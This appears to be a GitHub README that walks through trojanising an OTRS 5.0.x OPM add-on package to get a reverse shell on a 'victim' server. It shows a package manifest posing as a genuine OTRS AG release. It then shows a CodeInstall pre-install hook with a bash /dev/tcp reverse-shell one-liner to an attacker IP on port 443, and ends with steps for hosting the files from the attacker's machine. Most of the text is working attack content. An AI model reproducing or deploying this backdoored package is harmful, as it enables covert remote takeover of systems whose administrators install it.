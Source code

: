 # OTRS-OPM-Reverse-Shell-Package-5.0.X
OTRS OPM Reverse Shell opm Package 5.0.X - installation steps explanation



# OTRS OPM Reverse Shell steps
#Should work with OTRS 5.0.2 software
#Follow the below steps to take a reverse shell on the victim when opm package needs to be installed using otrs.xml file.
Include otrs.xml and .opm files in the same folder.

*****************************************************************************************************************************
     <Package>
        <Name>OTRSMasterSlave</Name>
        <Version>5.0.1</Version>
        <Vendor>OTRS AG</Vendor>
        <URL>http://otrs.org/</URL>
        <License>GNU AFFERO GENERAL PUBLIC LICENSE Version 3, November 2007</License>
        <ChangeLog Date="2015-10-15 05:51:53" Version="5.0.1">Build for OTRSMasterSlave 5.</ChangeLog>
        <ChangeLog Date="2015-08-27 05:58:03" Version="4.0.91">Build for OTRSMasterSlave 5 beta1.</ChangeLog>
        <Description Lang="en">Includes "Ticket Master/Slave" feature.</Description>
        <Description Lang="de">Enthält "Ticket Master/Slave" Funktionalität.</Description>
        <Framework>5.0.x</Framework>
        <Filelist><FileDoc Location="doc/en/OTRSMasterSlave.pdf" Permission="644"/></Filelist>
        <File>OTRSMasterSlave-5.0.1.opm</File>
    </Package>
*****************************************************************************************************************************

1. The above lines of code must be included in the otrs.xml file. These indicate the presence of the OTRSMasterSlave-5.0.1.opm package in the same directory where the otrs.xml is located.

2. OTRSMasterSlave-5.0.1.opm is edited and a reverse shell code is included. The below code is added after the 
	<Framework>5.0.x</Framework>  header.

******************************************************************************************************************************
    <IntroInstall Lang="en" Title="My Module" type="pre">
                &lt;br&gt;
                Hello wolrd
                &lt;br&gt;
                ((Hello!))
                &lt;br&gt
        </IntroInstall>
        <CodeInstall type="pre">
                print qx(bash -i >& /dev/tcp/attackerIP/443 0>&1 &);
        </CodeInstall>
        <CodeInstall Type="post">
                # create the package name
                my $CodeModule = 'var::packagesetup::' . $Param{Structure}-&gt;{Name}-&gt;{Content};
                $Kernel::OM-&gt;Get($ModeModule)-%gt;CodeInstall();
        </CodeInstall>
        <CodeUninstall type="pre">
                my $CodeModule = 'var::packagesetup::' . $Param{Structure}-%gt;{Name}-%gt;{Content};
                $Kernel::OM-&gt;Get($CodeModule)-&gt;CodeUninstall();
        </CodeUninstall>
*******************************************************************************************************************************

3. Give 777 permission to both opm and xml file and run a python server on port 80(on attacker's box).

4. The original opm file was downloaded from https://ftp.otrs.org/pub/otrs/packages/OTRSMasterSlave-5.0.1.opm


